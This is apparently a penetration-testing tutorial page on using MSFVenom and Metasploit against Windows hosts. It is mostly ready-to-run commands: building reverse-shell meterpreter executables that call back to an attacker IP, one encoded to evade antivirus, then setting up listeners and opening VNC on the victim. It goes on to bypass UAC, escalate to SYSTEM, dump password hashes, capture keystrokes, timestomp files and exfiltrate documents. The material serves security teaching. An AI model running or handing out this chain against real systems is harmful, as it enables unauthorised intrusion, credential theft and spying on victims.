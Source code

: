 ```yaml
---
path: "/tutorials/securitypentesttools/msfvenom"
date: "2020-04-06"
title: "MSFVenom"
---
```


MSFVenom is a tool used to create malicious payloads for the Metasploit framework. The Metasploit framework is a tool for developing and executing remote exploits on a vulnerable target. Tools within the framework allow you to complete various stages of a penetration test.

####Establishing a VNC Session
MSFVenom can be used to create lots of different types of payload. One of these can be used to establish a VNC session on a remote host. Virtual Network Computing (VNC) is a system that allows remote graphical connections to a host, this allows you to use the device remotely as though you were sitting in front of it. There are a number of VNC variants offering different features. Establishing a malicious VNC session on a target machine gives you a good foothold in a target network.

Generating a payload is simple enough:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<attackerIP> LPORT=<myPort> -o /root/Desktop/evil.exe
```
* *-p* - Specifies the payload we'd like to use. There are a large number of payloads to choose from.
* *--platform* - This is where you choose the platform the payload is for. Use the man page to discover the available payloads.
* *-a* - Architecture the exploit will run on.
* *-f* - The format of the output file
* *LHOST* - For this exploit this is how you specify the IP address of the listening machine
* *LPORT* - Similar to the above this is how you specify the port the listener will listen on.
* *-o* - The name and location of the output file.

This will generate an exe file that can run on Windows. 

We'll now start the listener on our attacker machine.

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
exploit
```

The listener is now setup.

During a normal penetration test you would have to find a way to get the file onto a target machine, this is the tricky part but I won't be telling you how to do it.

Once the user runs your exe file the system will be compromised. You'll see that the listener opens a meterpreter session and displays the IP and port of the listener and the victim.

Now we can use the established connection to tamper with the victim machine.

```bash
session -i 1
sysinfo
run vnc
```
* *session -i 1* - This ensures we are using session 1.
* *sysinfo* - Displays basic information about the system the session is open on.
* *run vnc* - Opens up a VNC session on the infected machine. Once this command is run you will see a screen appear showing the user's desktop.

**N.B** The exploit that we have created using MSFVenom will likely be caught by most standard antivirus tools. The are methods to reduce the chance of detection, but I won't go into detail for this section.




####Escalating Privileges
Escalating privilege is an essential part of any penetration test. This allows you to compromise a normal user account and then increase your level of privilege, enabling you to perform further actions on your victim's network/device.

To generate the exploit generate our payload we'll use the following command:
```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" -f exe LHOST=<attackerIP> -f Desktop/escalation.exe
```

This is similar to the command we used to create the previous payload with a few key differences.

* *-e* - Sets the encoding on the output file. This can help to avoid detection by antivirus, however, a lot of scanners will still detect this.
* *-b* - You can provide a list of characters to avoid.
* *-f* - Where you're outputting the file.

Start the listener on our attacker machine.

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
exploit -j -z
```

Again you'll have to figure out how to get this onto the target machine. Once the target has run the exe you'll have a session established with the target. Make the session interactive and grab the current user's username.

```bash
session -i 1
getuid
```

Depending on the user's privilege level you won't be able to perform administrator type actions. We now want to escalate our privileges so that we 'own' the system.

```bash
background
use exploit/windows/local/bypassuac_fodhelper
set SESSION 1
```

* *background* - Sends the current session to the background so you can perform the next tasks.
* *use exploit/windows/local/bypassuac_fodhelper* - Sets the exploit you want to use.
* *set SESSION 1* - Sets the SESSION variable for the exploit. **N.B.** Different exploits use different variables, to see the available options and a description use the `show options` command.

```bash
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
set TARGET 0
exploit
```

You should now have a new meterpreter session open.

```bash
getsystem -t 1
```
This should have escalated your privileges to the 'SYSTEM' account. If you use `getuid` you should see the username is now SYSTEM.

We can now dump the password hashes of users on the system as well as password hints.

```bash
run post/windows/gather/smart_hashdump
```

If this command works then you have successfully escalated you privilege. Well done!

####Post Exploitation Activities
So you've compromised a device and escalated your privileges, now what?

Well you can do any number of things. I'll show you some of the things you might want to do. 

* *ls* - Lists the current directory contents.
* *cd* - Change directory.
* *pwd* - Prints the current directory.
* *timestomp secret.txt -v* Alters the Modified, Access, Created, Entry Modified (MACE) attributes.
* *download myFile.doc* - Downloads the specified document to your machine.
* *search -f "myFile.doc"* - Searches for files on the system. You can search in specific folders or the whole system.
* *keyscan_start* - Initiates key capturing on the victim.
* *keyscan_dump* - Dumps the keystrokes to the terminal
* *idletime* - Displays the time, in seconds, the system has been idle.
* *shutdown* - Shutdowns the victim's machine.